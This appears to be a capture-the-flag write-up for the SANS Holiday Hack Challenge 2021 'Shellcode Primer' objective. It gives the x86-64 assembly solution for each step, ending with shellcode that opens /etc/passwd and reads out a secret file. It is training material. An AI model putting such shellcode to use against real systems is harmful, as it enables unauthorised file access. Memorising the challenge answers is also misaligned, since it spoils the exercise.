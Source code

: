 # Objective 6: Shellcode Primer
**Location: Jack's Office, Frost Tower, 16<sup>th</sup> Floor, https://tracer.kringlecastle.com/**

**Elf: Ruby Cyster**

**Hints provided by Chimney Scissorsticks after completion of [Holiday Hero](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Holiday%20Hero.md)**

This objective is a small training in x86 assembly language (basics and performing system calls). The background is to be able to create shellcode payloads to be used in system attacks.

1. Introduction
2. Loops
3. Getting Started
```
ret
```
4. Returning a Value
```
mov rax,1337  ; return value
ret
```
5. System Calls
```
mov rax,60    ; sys_exit
mov rdi,99    ; return code
syscall
```
6. Calling Into the Void
7. Getting RIP
```
call place_below_the_nop
nop
place_below_the_nop:
pop rax       ; pop pointer to NOP from stack
ret
```
8. Hello, World!
```
call go
db 'Hello World',0
go:
pop rax       ; pop pointer to string from stack
ret
```
9. Hello World!!
```
call go
db 'Hello World!',0
go:
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
pop rsi       ; pop pointer to buffer from stack
mov rdx,12    ; 12 bytes
syscall
ret
```
10. Opening a File
```
call go
db '/etc/passwd',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
ret
```
11. Reading a File
```
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```
The content of the file from step 11 is "Secret to KringleCon success: all of our speakers and organizers, providing the gift of **cyber security knowledge**, free to the community."

**Achievement: Shellcode Primer**

**Hint: Printer Firmware**
**Hint: Hash Extension Attacks**
**Hint: Dropping Files**
